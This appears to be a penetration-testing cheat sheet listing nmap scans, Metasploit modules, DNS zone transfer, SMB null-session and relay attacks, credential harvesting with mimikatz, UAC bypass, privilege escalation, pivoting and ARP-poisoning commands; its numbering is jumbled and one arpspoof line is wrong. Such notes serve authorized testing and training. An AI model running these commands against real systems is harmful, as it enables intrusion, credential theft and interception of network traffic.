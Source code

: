 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN      :    Exploiting zone transfer to display all subdomains
    - Exploiting zone transfer to display zone

### 2.SMB Misconfiguration

    #### 2.1 Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2
      exploit/windows/smb/psexec
      exploit/windows/smb/smb_relay
      auxiliary/scanner/smb/smb_login
      auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
   smbclient -L IPTarget
   

### 4.Exploitation


### 3.Post Exploitation

#### 3.0 Infor Gathering
run winenum
run arp_scanner –r TargetNetworkSubnet
run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

      getsystem
      post/windows/gather/win_privs        : Check if UAC enabled
      exploit/windows/local/bypassuac      : Local exploit to bypass UAC

    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
       incognito
       mimikatz

##### 3.1.2 Via Windows Services 

    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”

   - Using powerUp.ps1 script
   - 
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
   route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
   portfarwarding (meterpreter) ==> portfwd victimeIP -p ServicePort add -L 127.0.0.1 -l LocalPort -r

### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
* arpspoof -i tap0 -t vic1_IP -r vic2_IP
*  arpspoof -i tap0 -t vic2_IP -r vic2_IP
